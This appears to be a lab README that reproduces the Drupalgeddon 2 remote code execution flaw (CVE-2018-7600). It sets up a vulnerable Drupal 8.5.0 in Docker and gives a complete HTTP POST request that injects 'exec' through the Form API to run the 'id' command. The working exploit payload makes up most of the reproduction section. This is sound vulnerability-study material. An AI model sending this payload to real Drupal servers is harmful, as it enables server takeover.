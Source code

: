 # Drupal Drupalgeddon 2 Remote Code Execution Vulnerability (CVE-2018-7600)

Drupal is a large-scale CMS with a remote code execution vulnerability in the 6/7/8 version of the Form API. The relevant analysis is as follows:

- https://research.checkpoint.com/uncovering-drupalgeddon-2/

## vulnerability environment

Run the following command to start the environment of Drupal 8.5.0:

```
Docker-compose up -d
```

After the environment is started, visit `http://your-ip:8080/` and you will see the drupal installation page. The default configuration will be installed next. Because there is no mysql environment, so you can choose the sqlite database when installing.

## Vulnerability recurrence

Referring to [a2u/CVE-2018-7600] (https://github.com/a2u/CVE-2018-7600/blob/master/exploit.py), we send the following packet to the installed drupal:

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

Form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

Successful execution of the code, this code eventually executed the id command:

![](1.png)